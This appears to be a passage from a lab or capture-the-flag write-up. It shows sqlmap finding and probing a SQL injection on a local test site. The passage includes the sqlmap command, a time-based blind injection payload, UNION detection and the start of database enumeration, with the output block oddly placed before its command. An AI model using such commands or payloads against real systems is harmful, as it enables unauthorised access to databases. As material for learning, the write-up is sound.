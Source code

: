 ```jsx
[17:24:04] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:24:15] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[17:24:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:24:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:24:23] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[17:24:32] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[17:24:32] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4321 FROM (SELECT(SLEEP(5)))IZXb)
---
[17:24:55] [INFO] the back-end DBMS is MySQL
[17:24:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
[17:24:57] [INFO] fetching database names
[17:24:57] [INFO] fetching number of databases
[17:24:57] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
5
[17:25:10] [INFO] retrieved: 
[17:25:15] [INFO] adjusting time delay to 1 second due to good response times
mysql
[17:25:43] [INFO] retrieved: information
```

We use SQLMap to enumerate the databases and enevtually find something interesting:

```jsx
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
        ___
       __H__                                                                                                                       
 ___ ___["]_____ ___ ___  {1.7#stable}                                                                                             
|_ -| . [.]     | .'| . |                                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:23:49 /2023-01-20/

[17:23:49] [INFO] testing connection to the target URL
```